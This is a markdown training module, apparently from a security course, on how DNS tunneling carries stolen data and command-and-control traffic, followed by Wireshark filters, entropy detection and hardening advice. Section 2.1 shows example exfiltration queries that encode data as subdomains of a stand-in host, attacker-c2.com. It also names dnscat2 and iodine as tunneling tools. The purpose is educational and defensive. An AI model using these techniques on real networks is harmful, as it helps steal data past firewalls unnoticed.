


# 🚇 Module 12: DNS Tunneling, Covert Channels & Data Exfiltration

In heavily locked-down enterprise networks, isolated hotel Wi-Fi captive portals, and firewalled environments, outbound HTTP/HTTPS (Port 80/443), SSH, and VPN connections are frequently blocked. However, one protocol is almost **universally permitted outbound to internal and public resolvers: UDP Port 53 (DNS)**. In this module, we dissect how adversaries abuse the recursive nature of DNS to build covert bidirectional tunnels, exfiltrate sensitive files, establish Command & Control (C2) channels, and detect these anomalies in Wireshark.

---

## 📑 Table of Contents
- [1. Why DNS is the Ultimate Covert Egress Channel](#1-why-dns-is-the-ultimate-covert-egress-channel)
  - [1.1 The Recursive Resolution Loophole](#11-the-recursive-resolution-loophole)
  - [1.2 Bypassing Firewalls & Captive Portals](#12-bypassing-firewalls--captive-portals)
- [2. How DNS Data Exfiltration Operates](#2-how-dns-data-exfiltration-operates)
  - [2.1 Subdomain Label Data Encoding (Outbound Exfiltration)](#21-subdomain-label-data-encoding-outbound-exfiltration)
  - [2.2 Inbound C2 Channels via TXT and CNAME Records](#22-inbound-c2-channels-via-txt-and-cname-records)
  - [2.3 Real-World Tooling (dnscat2 / iodine)](#23-real-world-tooling-dnscat2--iodine)
- [3. Wireshark Forensics for DNS Tunneling](#3-wireshark-forensics-for-dns-tunneling)
  - [3.1 Wireshark Display Filters](#31-wireshark-display-filters)
  - [3.2 High-Entropy Subdomain Signatures](#32-high-entropy-subdomain-signatures)
- [4. Blue Team Detection & Enterprise Hardening](#4-blue-team-detection--enterprise-hardening)
  - [4.1 Shannon Entropy Analysis](#41-shannon-entropy-analysis)
  - [4.2 Internal DNS Sinkholing & Inspection](#42-internal-dns-sinkholing--inspection)

---

## 1. Why DNS is the Ultimate Covert Egress Channel

### 1.1 The Recursive Resolution Loophole
When an infected endpoint or internal host needs to resolve a domain, it queries the local internal DNS server. The internal server recursively queries the internet root, TLD, and authoritative nameservers on the endpoint's behalf.
* **The Vulnerability**: The compromised machine **never connects directly to the attacker's IP**.
* The company's own trusted recursive DNS server acts as an unwitting proxy, forwarding attacker data through the perimeter firewall!



### 1.2 Bypassing Firewalls & Captive Portals
* Even if a firewall drops all TCP traffic, standard DNS queries over UDP Port 53 are allowed to let web browsers resolve domain names.
* Airport and hotel captive portals frequently allow unauthenticated DNS queries before login to allow captive portal redirection to function.

---

## 2. How DNS Data Exfiltration Operates

### 2.1 Subdomain Label Data Encoding (Outbound Exfiltration)
According to RFC 1035:
* A single DNS label (chunk between dots) can hold up to **63 characters**.
* The entire Fully Qualified Domain Name (FQDN) can be up to **253 characters**.

An exfiltration script chunks a stolen file into Base32 or Hex and transmits it via rapid DNS requests:
```
chunk01.48657850617373776f7264313233.tunnel.attacker-c2.com
chunk02.557365723a2041646d696e697374.tunnel.attacker-c2.com
chunk03.7261746f720a4b65793a20583939.tunnel.attacker-c2.com
```

### 2.2 Inbound C2 Channels via TXT and CNAME Records
To send commands back to the compromised machine:
* The attacker's custom DNS daemon embeds encrypted shell commands inside standard **TXT records** (which can carry up to 64 KB of data across multiple strings) or **NULL records**.
* The malware parses the TXT payload, executes the command, and transmits the command output back in subsequent query subdomains.

### 2.3 Real-World Tooling
* **dnscat2**: Creates an encrypted Command & Control tunnel over DNS (supports interactive shell, file upload/download, and port forwarding).
* **iodine**: Creates a full virtual IP network (TUN/TAP interface) tunneled entirely through DNS.

---

## 3. Wireshark Forensics for DNS Tunneling



### 3.1 Wireshark Display Filters

| Wireshark Filter | What It Detects | Threat Significance |
| :--- | :--- | :--- |
| `dns.qry.name.len > 50` | Long subdomain queries | Identifies chunks of encoded data |
| `dns.qry.type == 16` | DNS TXT record queries | High frequency indicates inbound C2 traffic |
| `dns.qry.type == 10` | DNS NULL record queries | Rarely used in normal traffic; common in `iodine` tunnels |
| `dns.flags.response == 1 and dns.txt` | DNS responses containing TXT strings | Inspects incoming C2 command payloads |

### 3.2 High-Entropy Subdomain Signatures
Normal DNS lookups look like:
* `api.github.com`
* `static.cloudflare.com`

DNS Tunneling lookups look like:
* `a7f93b8c2d1e04.b8921a8f90c3e.tunnel.darknet-c2.net`

---

## 4. Blue Team Detection & Enterprise Hardening

### 4.1 Shannon Entropy Analysis
Security Information and Event Management (SIEM) systems calculate the **Shannon Entropy** ($H$) of queried domain names:
$$H(X) = -\sum_{i=1}^{n} P(x_i) \log_2 P(x_i)$$
* Normal human-readable domains: $H \approx 2.0 - 3.5$
* Base64/Hex DNS tunnel subdomains: $H > 4.5$ (Flagged and blocked automatically by SIEM/EDR rules).

### 4.2 Enterprise Hardening Controls
1. **Restrict Outbound Port 53**: Block direct outbound UDP/TCP 53 connections from workstations to the public internet. Force all endpoints to query internal managed DNS resolvers.
2. **DNS Sinkholing & Threat Intelligence Feeds**: Block lookups to newly registered domains (<30 days old) or domains categorized as malicious.
3. **Response Rate Limiting (RRL) & Query Length Thresholds**: Drop and alert on hosts issuing more than 50 queries per second with FQDN lengths exceeding 100 characters.

---

<div align="center">
  <sub>Published and maintained by <a href="https://github.com/DaddyZyn"><b>DaddyZyn (DRAXO.dev)</b></a></sub>
</div>
